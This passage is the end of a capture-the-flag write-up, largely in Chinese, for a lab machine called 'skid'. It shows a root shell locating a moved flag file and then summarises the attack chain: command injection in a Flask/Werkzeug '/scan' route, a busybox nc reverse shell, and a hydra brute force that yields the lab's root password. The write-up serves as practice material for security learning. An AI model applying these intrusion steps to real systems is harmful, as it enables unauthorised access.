Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Nov 14 15:04:38 2025 from 192.168.100.116
]104
root@skid:~# ls -al
total 40
drwx------  6 root root 4096 Nov 14 15:04 .
drwxr-xr-x 19 root root 4096 Nov 13 20:44 ..
lrwxrwxrwx  1 root root    9 Nov 14 10:19 .bash_history -> /dev/null
-rw-r--r--  1 root root 3063 Nov 14 14:14 .bashrc
drwx------  2 root root 4096 Nov 14 14:57 .cache
drwxr-xr-x  3 root root 4096 Nov 13 20:46 .local
-rw-r--r--  1 root root  276 Nov 14 14:24 .profile
-rw-r--r--  1 root root   61 Nov 14 09:00 root.txt
drwx------  3 root root 4096 Nov 13 20:45 snap
drwx------  2 root root 4096 Nov 13 20:45 .ssh
-rw-------  1 root root 4031 Nov 14 15:04 .viminfo
root@skid:~# cat root.txt
Help I lost the root flag! 
Can you please help me find it? 
root@skid:~# find / -name root.txt 
/var/lib/.cache2/root.txt
/root/root.txt
root@skid:~# cat /var/lib/.cache2/root.txt
hmv{1826b83f95bd2ffc[hidden]
root@skid:~# cat /home/jeremy/user.txt 
hmv{7609a0e2e5bf27260[hidden]
```

这只是方法1，`sudo` 的特权提升这里并没有使用，我将放到下一个markdown文件里面。

## 攻击链总结

* 端口扫描：22，5000；5000 的 service 为：`Werkzeug httpd 3.0.6 (Python 3.8.10)`。
* 对 5000 进行目录枚举：`/scan /payload`路由，对 5000 端口的 `/scan` 路由进行分析，发现其存在命令执行漏洞，利用`busybox`的`nc`命令进行反向`shell`，并进行优化。
* 系统信息枚举：作者留了一个`~/wordlists/secure-passwds.txt`，在`change.txt` 中作者明确说明：这是一个密码列表，`rockyou.txt`中没有的，利用`hydra` 爆破 `root`密码，找到密码为`sk1ddl3`。
* root 登陆，获取flag。